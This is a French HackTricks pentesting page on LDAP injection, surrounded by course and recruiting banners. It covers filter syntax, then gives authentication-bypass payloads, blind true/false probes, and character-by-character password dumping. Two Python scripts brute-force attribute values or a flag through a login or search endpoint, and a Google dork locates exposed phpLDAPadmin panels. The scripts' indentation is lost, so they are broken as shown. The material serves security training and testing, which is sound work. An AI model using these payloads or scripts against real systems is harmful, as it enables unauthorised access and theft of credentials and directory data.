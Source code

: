 # LDAP Injection

## LDAP Injection

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR au** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos GitHub.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière dans le hacking** et que vous souhaitez hacker l'inhackable - **nous recrutons !** (_polonais courant écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

## LDAP Injection

### **LDAP**

**Si vous voulez savoir ce qu'est LDAP, accédez à la page suivante :**

{% content-ref url="../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

**LDAP Injection** est une attaque ciblant les applications web qui construisent des déclarations LDAP à partir des entrées utilisateur. Elle se produit lorsque l'application **ne parvient pas à assainir correctement** les entrées, permettant aux attaquants de **manipuler les déclarations LDAP** via un proxy local, ce qui peut entraîner un accès non autorisé ou une manipulation des données.

{% file src="../.gitbook/assets/EN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf" %}

**Filtre** = ( filtercomp )\
**Filtercomp** = et / ou / non / élément\
**Et** = & filterlist\
**Ou** = |filterlist\
**Non** = ! filter\
**Filterlist** = 1\*filter\
**Élément**= simple / présent / sous-chaîne\
**Simple** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Présent** = attr = \*\
**Sous-chaîne** = attr ”=” \[initial] \* \[final]\
**Initial** = assertionvalue\
**Final** = assertionvalue\
**(&)** = VRAI Absolu\
**(|)** = FAUX Absolu

Par exemple :\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

Vous pouvez accéder à la base de données, qui peut contenir des informations de différents types.

**OpenLDAP** : Si 2 filtres arrivent, seul le premier est exécuté.\
**ADAM ou Microsoft LDS** : Avec 2 filtres, ils renvoient une erreur.\
**SunOne Directory Server 5.0** : Exécute les deux filtres.

**Il est très important d'envoyer le filtre avec la syntaxe correcte sinon une erreur sera renvoyée. Il est préférable d'envoyer seulement 1 filtre.**

Le filtre doit commencer par : `&` ou `|`\
Exemple : `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Ensuite : `(&(objectClass=`**`*)(ObjectClass=*))`** sera le premier filtre (celui exécuté).

### Contournement de connexion

LDAP prend en charge plusieurs formats pour stocker le mot de passe : clair, md5, smd5, sh1, sha, crypt. Ainsi, il se peut que peu importe ce que vous insérez dans le mot de passe, il soit haché.
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### Listes

* [LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_FUZZ.txt)
* [Attributs LDAP](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt)
* [Attributs PosixAccount LDAP](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### Injection LDAP aveugle

Vous pouvez forcer des réponses False ou True pour vérifier si des données sont renvoyées et confirmer une possible injection LDAP aveugle :
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump data

Vous pouvez itérer sur les lettres ascii, les chiffres et les symboles :
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
### Scripts

#### **Découvrir les champs LDAP valides**

Les objets LDAP **contiennent par défaut plusieurs attributs** qui pourraient être utilisés pour **sauvegarder des informations**. Vous pouvez essayer de **forcer tous les attributs pour extraire ces informations.** Vous pouvez trouver une liste des [**attributs LDAP par défaut ici**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt).
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **Injection LDAP aveugle spéciale (sans "\*")**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### Google Dorks
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### Plus de Payloads

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière dans le hacking** et que vous souhaitez hacker l'inhackable - **nous recrutons !** (_polonais courant écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

